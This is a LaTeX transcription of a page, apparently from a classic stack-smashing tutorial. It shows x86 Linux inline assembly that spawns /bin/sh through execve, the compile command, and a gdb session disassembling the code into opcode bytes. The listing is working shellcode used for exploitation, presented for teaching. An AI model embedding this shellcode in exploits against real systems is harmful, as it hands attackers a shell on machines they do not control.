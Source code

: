 \documentclass[a4paper]{article}
\begin{document}
\begin{listing}[ht]
\begin{verbatim}
void main() {
__asm__("
    jmp    0x2a                     # 3 bytes
    popl   %esi                     # 1 byte
    movl   %esi,0x8(%esi)           # 3 bytes
    movb   $0x0,0x7(%esi)           # 4 bytes
    movl   $0x0,0xc(%esi)           # 7 bytes
    movl   $0xb,%eax                # 5 bytes
    movl   %esi,%ebx                # 2 bytes
    leal   0x8(%esi),%ecx           # 3 bytes
    leal   0xc(%esi),%edx           # 3 bytes
    int    $0x80                    # 2 bytes
    movl   $0x1, %eax               # 5 bytes
    movl   $0x0, %ebx               # 5 bytes
    int    $0x80                    # 2 bytes
    call   -0x2f                    # 5 bytes
    .string \"/bin/sh\"             # 8 bytes
");
}
\end{verbatim}
\caption{shellcodeasm.c}
\label{listing:1}
\end{listing}

\begin{lstlisting}[style=DOS]
$ gcc -o shellcodeasm -g -ggdb shellcodeasm.c
\end{lstlisting}

\begin{verbatim}

[aleph1]$ gdb shellcodeasm
GDB is free software and you are welcome to distribute copies of it under certain conditions; type "show copying" to see the conditions.
There is absolutely no warranty for GDB; type "show warranty" for details.
GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc...
(gdb) disassemble main
Dump of assembler code for function main:
0x8000130 <main>:       pushl  %ebp
0x8000131 <main+1>:     movl   %esp,%ebp
0x8000133 <main+3>:     jmp    0x800015f <main+47>
0x8000135 <main+5>:     popl   %esi
0x8000136 <main+6>:     movl   %esi,0x8(%esi)
0x8000139 <main+9>:     movb   $0x0,0x7(%esi)
0x800013d <main+13>:    movl   $0x0,0xc(%esi)
0x8000144 <main+20>:    movl   $0xb,%eax
0x8000149 <main+25>:    movl   %esi,%ebx
0x800014b <main+27>:    leal   0x8(%esi),%ecx
0x800014e <main+30>:    leal   0xc(%esi),%edx
0x8000151 <main+33>:    int    $0x80
0x8000153 <main+35>:    movl   $0x1,%eax
0x8000158 <main+40>:    movl   $0x0,%ebx
0x800015d <main+45>:    int    $0x80
0x800015f <main+47>:    call   0x8000135 <main+5>
0x8000164 <main+52>:    das
0x8000165 <main+53>:    boundl 0x6e(%ecx),%ebp
0x8000168 <main+56>:    das
0x8000169 <main+57>:    jae    0x80001d3 <__new_exitfn+55>
0x800016b <main+59>:    addb   %cl,0x55c35dec(%ecx)
End of assembler dump.
(gdb) x/bx main+3
0x8000133 <main+3>:     0xeb
(gdb)
0x8000134 <main+4>:     0x2a
(gdb)
.
.
.
\end{verbatim}
\end{document}
